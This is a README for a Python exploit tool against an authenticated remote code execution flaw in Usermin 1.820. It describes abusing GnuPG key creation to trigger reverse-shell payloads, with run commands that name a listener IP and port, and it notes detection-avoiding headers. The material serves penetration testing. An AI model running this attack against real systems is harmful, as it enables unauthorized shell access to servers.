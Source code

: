 # Usermin 1.820 Remote Code Execution (Authenticated) Exploit

**Original Author:** Numan Türle  
**Original Date:** 27.08.2021  
**Original PoC:** [Usermin 1.820 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50234)  
**Exploit Reference:** [Usermin - Remote Code Execution (Authenticated) (Version 1.820)](https://youtu.be/wiRIWFAhz24)  

---

## Description

This Python script exploits an authenticated remote code execution vulnerability in Usermin `<= 1.820` by abusing the GnuPG functionality to execute arbitrary commands on the target system.

The exploit works by:
1. Authenticating to the Usermin interface
2. Creating a GnuPG secret key with a malicious payload embedded in the name field
3. Triggering the payload by accessing the edit key functionality
4. Establishing a reverse shell connection to the attacker's machine

---

## Features

### Enhanced Error Handling & Validation
- **Target Validation**: Verifies the target is reachable and appears to be Usermin/Webmin
- **Input Validation**: Validates all command-line arguments including port range checks
- **Robust Exception Handling**: Gracefully handles network timeouts and connection errors
- **Detailed Error Messages**: Provides clear feedback for each step of the exploit process

### Improved Session Management
- **Persistent Session**: Maintains authentication state throughout the exploit
- **Configurable Timeouts**: Appropriate timeout values for different operations
- **Realistic Headers**: Uses browser-like headers to avoid detection
- **SSL Handling**: Properly handles self-signed certificates

### Advanced Payload System
- **Primary Payload**: Uses netcat for reverse shell (most reliable)
- **Fallback Payload**: Bash-based reverse shell as backup option
- **Automatic Fallback**: Automatically tries alternative payload if primary fails
- **Customizable**: Easy to modify payloads for different scenarios

### User Experience Improvements
- **Progress Indicators**: Clear status messages for each exploit stage
- **Helpful Output**: Detailed information about what's happening
- **Example Usage**: Built-in help with practical examples
- **Exit Codes**: Proper exit codes for automation and scripting

---

## Changes (05/25)

The original script by Numan Türle has been significantly enhanced with the following improvements:

### Core Improvements
- **Object-Oriented Design**: Refactored into a clean class-based structure
- **Modular Functions**: Separated concerns into focused methods
- **Better Argument Parsing**: Enhanced CLI with examples and validation
- **Improved Documentation**: Comprehensive docstrings and comments

### Security & Reliability
- **Target Validation**: Pre-flight checks to ensure target is valid
- **Enhanced Login Logic**: Better authentication verification
- **Payload Fallbacks**: Multiple payload options for different environments
- **Timeout Management**: Appropriate timeouts for each operation type

### Error Handling
- **Graceful Degradation**: Handles failures at each stage without crashing
- **Informative Messages**: Clear feedback about what went wrong
- **Exception Suppression**: Prevents ugly tracebacks for expected errors
- **Status Reporting**: Proper exit codes for automation

---

## Usage

### Basic Usage
```bash
python3 usermin-rce.py -u <target_ip> -l <username> -p <password> -lh <listener_ip> -lp <listener_port>
```

### Examples

**Standard Usage:**
```bash
python3 usermin-rce.py -u 192.168.1.100 -l admin -p password -lh 192.168.1.50 -lp 4444
```

**Using Default Listener:**
```bash
python3 usermin-rce.py -u target.com -l user -p pass123
```

**Custom Port:**
```bash
python3 usermin-rce.py -u 10.0.0.5 -l admin -p secret -lh 10.0.0.10 -lp 8080
```

### Command Line Options

| Option | Long Option | Description | Required | Default |
|--------|-------------|-------------|----------|---------|
| `-u` | `--host` | Target host IP or domain | Yes | - |
| `-l` | `--login` | Username for authentication | Yes | - |
| `-p` | `--password` | Password for authentication | Yes | - |
| `-lh` | `--listen_host` | Listener IP for reverse shell | No | 192.168.45.154 |
| `-lp` | `--listen_port` | Listener port for reverse shell | No | 443 |

---

## Requirements

- **Python 3.6+**: Modern Python with f-string support
- **requests library**: For HTTP operations
- **Netcat listener**: To receive the reverse shell connection

### Installation
```bash
pip install requests
```

---

## Exploit Flow

1. **Target Validation**: Verify the target is reachable and appears to be Usermin
2. **Authentication**: Login to the Usermin interface with provided credentials
3. **Payload Generation**: Create reverse shell payloads (primary + fallback)
4. **Payload Submission**: Submit payload via GnuPG secret key creation
5. **Key Extraction**: Retrieve the generated key ID from the key list
6. **Payload Trigger**: Access the edit key page to execute the payload
7. **Shell Establishment**: Reverse shell connection established

---

## Troubleshooting

### Common Issues

**"Target doesn't appear to be Usermin/Webmin"**
- Verify the target is running Usermin on port 20000
- Check if the service is accessible via HTTPS

**"Login failed"**
- Verify username and password are correct
- Check if the account is locked or disabled
- Ensure the target is actually Usermin (not Webmin)

**"No key IDs found"**
- The payload submission may have failed
- Check if GnuPG functionality is enabled
- Verify user permissions

**"Connection closed"**
- This is expected behavior when the reverse shell is established
- Check your listener for incoming connections

### Debug Mode
For additional debugging information, you can modify the script to enable verbose logging by adding debug print statements in the relevant methods.

---

## Security Considerations

- **Authorized Testing Only**: Use only on systems you have explicit permission to test
- **Network Isolation**: Test in isolated environments to prevent unintended access
- **Credential Protection**: Be careful with credentials in command history
- **Listener Security**: Ensure your listener is properly secured

---

## Disclaimer

This tool is provided for educational and authorized security testing purposes only. The authors are not responsible for any misuse of this software. Always ensure you have proper authorization before testing any system.

Unauthorized access to computer systems is illegal and unethical. Use this tool responsibly and in compliance with applicable laws and regulations.
